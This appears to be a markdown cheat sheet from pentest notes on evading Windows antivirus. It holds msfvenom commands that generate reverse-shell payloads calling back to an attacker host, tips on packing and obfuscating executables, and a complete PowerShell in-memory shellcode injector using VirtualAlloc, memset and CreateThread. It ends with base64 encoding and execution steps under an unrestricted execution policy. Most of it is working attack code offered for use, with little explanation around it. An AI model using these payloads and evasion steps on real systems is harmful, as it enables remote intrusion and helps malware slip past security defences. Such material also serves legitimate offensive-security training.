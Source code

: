 # AV Evasion in Practice

## Windows PE Analysing

* Use msfvenom Reverse Shell
* VirusTotal Upload `https://www.virustotal.com/gui/home/upload`
* Antiscan Me `https://antiscan.me` (4 Uploads/ Day)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
```

## UPX

* Packer for executeables
* ` https://upx.github.io/`

```bash
sudo apt install upx-ucl
```

## Obfuscator

* EnigmaProtector
* Comercial Tool `https://www.enigmaprotector.com/en/home.html`

## Powershell AV ByPass Techiques

* Use Powershell x86 Script
* Implant Reverse-Shell with In-Memory-Injection (VirtualAlloc, memset, CreateThread)
  * Use Msfvenom to create a reverse shell -f powershell
  * Add Shellcode `<place your shellcode here>`
  * Modify $var to obfuscate the malicous code
* Make Powershell Onliner `https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py`
* Set `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`
* Run Powerhell Script to spawn Reverse Shell without AV Evasion 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -f powershell
```

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$windoof = 
  Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$shellcode = #<place your shellcode here>; 

$size = 0x1000;

if ($shellcode.Length -gt 0x1000) {$size = $shellcode.Length};

$x = $windoof::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($shellcode.Length-1);$i++) {$windoof::memset([IntPtr]($x.ToInt32()+$i), $shellcode[$i], 1)};

$windoof::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

```bash
python3 tools/py-encode.py --script tools/av-bypass-resershell.ps1
JABjAG8AZABlACAAPQAgACcACgBbAEQAbABsAEkAbQBwAG8...
```

```powershell
# Run ps1
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
./av-bypass-resershell.ps1
# Alternative base64 encode ps1
powershell -enc  JABjAG8AZABlACAAPQAgACcACgBbAEQAbABsAEkAbQBwAG8...
```
